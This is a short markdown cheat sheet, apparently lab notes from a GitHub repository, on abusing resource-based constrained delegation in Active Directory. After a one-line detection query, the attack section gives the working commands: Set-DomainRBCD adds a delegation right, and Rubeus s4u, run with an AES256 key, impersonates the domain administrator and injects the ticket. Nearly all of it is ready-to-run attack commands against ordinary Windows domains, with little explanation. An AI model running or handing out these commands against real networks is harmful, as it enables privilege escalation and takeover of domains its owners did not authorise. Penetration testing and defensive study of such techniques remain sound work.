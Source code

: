 # Resources Constrained Based delegation

![Constrained Delegation](Resoruce_delegation_based_domain.png)

## Index:
  1. [Detection](#detection)
  2. [Attack](#attack)


## Detection
```
Get-ADComputer -Identity dcorp-mgmt -Properties msds-allowedtoactonbehalfofotheridentity | select -ExpandProperty msds-allowedtoactonbehalfofotheridentity
```


## Attack

```
Set-DomainRBCD -Verbose -Identity dcorp-mgmt -DelegateFrom DCORP-STD162$
```

```
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-std162$ /aes256:732b0bcff73f3658d123866dee2395b0085603cec814d990c9c04c461c7fb5a4 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```
